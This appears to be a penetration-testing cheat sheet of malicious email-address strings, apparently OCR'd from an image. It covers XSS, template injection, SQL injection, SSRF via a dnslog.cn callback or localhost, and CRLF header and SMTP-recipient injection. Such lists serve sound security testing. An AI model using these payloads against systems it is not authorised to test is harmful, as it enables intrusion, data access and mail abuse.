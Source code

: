 	XSS
	test+(<script>alert(0)</script>)@example.com
	test@example(<script>alert(0)</script>).com
	"<script>alert(0)</script>"@example.com
	SSTI
	"<%= 7 * 7 %>"@example.com
	test+(${{7*7}})@example.com
	SQL injection
	"' OR 1=1 -- '"@example.com 
	"mail'); --"@example.com
	SSRF
	john.doe@abc123.dnslog.cn
	john.doe@[127.0.0.1]
	头注入
	"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
	"recipient@test.com>\r\nRCPT TO:<victim+"@test.com

